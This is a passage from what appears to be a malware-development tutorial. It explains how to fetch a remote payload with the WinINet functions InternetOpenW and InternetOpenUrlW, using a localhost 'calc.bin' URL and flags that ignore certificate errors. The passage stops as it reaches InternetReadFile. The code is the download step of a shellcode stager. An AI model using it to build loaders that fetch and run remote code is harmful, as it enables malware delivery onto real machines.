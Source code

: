 
```
HINTERNET InternetOpenW(
  [in] LPCWSTR lpszAgent,       // NULL
  [in] DWORD   dwAccessType,    // NULL or INTERNET_OPEN_TYPE_PRECONFIG
  [in] LPCWSTR lpszProxy,       // NULL
  [in] LPCWSTR lpszProxyBypass, // NULL
  [in] DWORD   dwFlags          // NULL
);

```
Calling the function is shown in the snippet below.


```
// Opening an internet session handle
hInternet = InternetOpenW(NULL, NULL, NULL, NULL, NULL);

```
### **Opening a Handle To Payload**

Moving on to the next WinAPI used, [InternetOpenUrlW](https://learn.microsoft.com/en-us/windows/win32/api/wininet/nf-wininet-internetopenurlw), where a connection is being established to the payloads's URL.


```
HINTERNET InternetOpenUrlW(
  [in] HINTERNET hInternet,       // Handle opened by InternetOpenW
  [in] LPCWSTR   lpszUrl,         // The payload's URL
  [in] LPCWSTR   lpszHeaders,     // NULL
  [in] DWORD     dwHeadersLength, // NULL
  [in] DWORD     dwFlags,         // INTERNET_FLAG_HYPERLINK | INTERNET_FLAG_IGNORE_CERT_DATE_INVALID
  [in] DWORD_PTR dwContext        // NULL
);

```
Calling the function is shown in the snippet below. The fifth parameter of the function uses `INTERNET_FLAG_HYPERLINK | INTERNET_FLAG_IGNORE_CERT_DATE_INVALID` to achieve a higher success rate with the HTTP request in case of an error on the server side. It's possible to use additional flags such as `INTERNET_FLAG_IGNORE_CERT_CN_INVALID` but that will be left up to the reader. The flags are well explained in Microsoft's [documentation](https://learn.microsoft.com/en-us/windows/win32/api/wininet/nf-wininet-internetopenurlw).


```
// Opening a handle to the payload's URL
hInternetFile = InternetOpenUrlW(hInternet, L"http://127.0.0.1:8000/calc.bin", NULL, NULL, INTERNET_FLAG_HYPERLINK | INTERNET_FLAG_IGNORE_CERT_DATE_INVALID, NULL);

```
### **Reading Data**

[InternetReadFile](https://learn.microsoft.com/en-us/windows/win32/api/wininet/nf-wininet-internetreadfile) is the next WinAPI used which will read the payload.
